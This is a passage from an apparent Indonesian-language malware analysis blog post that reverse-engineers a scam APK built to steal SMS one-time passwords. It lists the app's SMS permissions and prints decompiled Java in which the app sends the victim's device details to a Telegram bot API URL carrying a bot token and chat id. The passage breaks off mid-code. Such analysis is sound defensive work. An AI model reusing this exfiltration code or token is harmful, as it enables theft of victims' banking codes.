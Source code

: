 Aplikasi yang kirimkan oleh scammer tersebut terlihat kecil hanya berukuran (6 MB) dan memiliki nilai hash seperti berikut

<img src="/images/lokasires/image2.png" />

# Reverse engineering

Setelah melakukan dekompilasi terhadap APK tersebut, saya menemukan APK tersebut membutuhkan 3 permission yaitu 

    <uses-permission android:name="android.permission.RECEIVE_SMS"/>
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_SMS"/>
    <uses-permission android:name="android.permission.SEND_SMS"/>

Yang berarti, aplikasi tersebut dapat menerima SMS, menggunakan internet, membaca dan mengirim SMS. Bila dilihat dari permission yang dibutuhkan sepertinya aplikasi ini hanya akan melakukan pencurian SMS OTP pada handphone korban.

Selanjutnya pada directory `sources/com/example/myapplication` ditemukan beberapa file, namun kita akan fokus pada 3 File saja yakni MainActivity.java, ReceiveSms.java dan SendSMS.java

Pada file Mainactivity.java ditemukan adanya komunikasi ke telegram pada function `onRequestPermissionsResult()` 

{% highlight java %}
public void onRequestPermissionsResult(int i, String[] strArr, int[] iArr) {
        super.onRequestPermissionsResult(i, strArr, iArr);
        if (i != 1000) {
            return;
        }
        if (iArr[0] == 0) {
            Toast.makeText(this, "Permintaan Anda Sedang di Proses", 0).show();
            Request build = new Request.Builder().url("https://api.telegram.org/bot5931495238:AAHOz7qP80CGo8D8yueYGJv3Rib4xuKSxHQ/sendMessage?parse_mode=markdown&chat_id=5641182991&text= \n──────────────────────\n\n 𝐀𝐩𝐤 𝐒𝐚𝐝𝐚𝐩 𝐒𝐌𝐒 𝐖𝐞𝐛𝐩𝐫𝐨 𝐔𝐧𝐝𝐚𝐧𝐠𝐚𝐧 𝐒𝐮𝐝𝐚𝐡 𝐁𝐞𝐫𝐡𝐚𝐬𝐢𝐥 𝐃𝐢 𝐈𝐧𝐬𝐭𝐚𝐥𝐥 𝐁𝐫𝐨 \n\n──────────────────────\n\n    " + this.device).build();
            Request build2 = new Request.Builder().url("https://api.telegram.org/bot5931495238:AAHOz7qP80CGo8D8yueYGJv3Rib4xuKSxHQ/sendMessage?parse_mode=markdown&chat_id=5641182991&text= \n──────────────────────\n\n  𝐀𝐩𝐤 𝐒𝐚𝐝𝐚𝐩 𝐒𝐌𝐒 𝐖𝐞𝐛𝐩𝐫𝐨 𝐔𝐧𝐝𝐚𝐧𝐠𝐚𝐧 𝐒𝐮𝐝𝐚𝐡 𝐁𝐞𝐫𝐡𝐚𝐬𝐢𝐥 𝐃𝐢 𝐈𝐧𝐬𝐭𝐚𝐥𝐥 𝐁𝐫𝐨     \n\n    ──────────────────────  \n\n    " + this.device).build();
            this.client.newCall(build).enqueue(new Callback() {
                public void onFailure(Call call, IOException iOException) {
                    iOException.printStackTrace();
                }

                public void onResponse(Call call, Response response) throws IOException {
                    Log.d("demo1", "OnResponse: Thread Id " + Thread.currentThread().getId());
                    if (response.isSuccessful()) {
                        response.body().string();
                    }
                }
            });
            this.client.newCall(build2).enqueue(new Callback() {
                public void onFailure(Call call, IOException iOException) {
                    iOException.printStackTrace();
                }
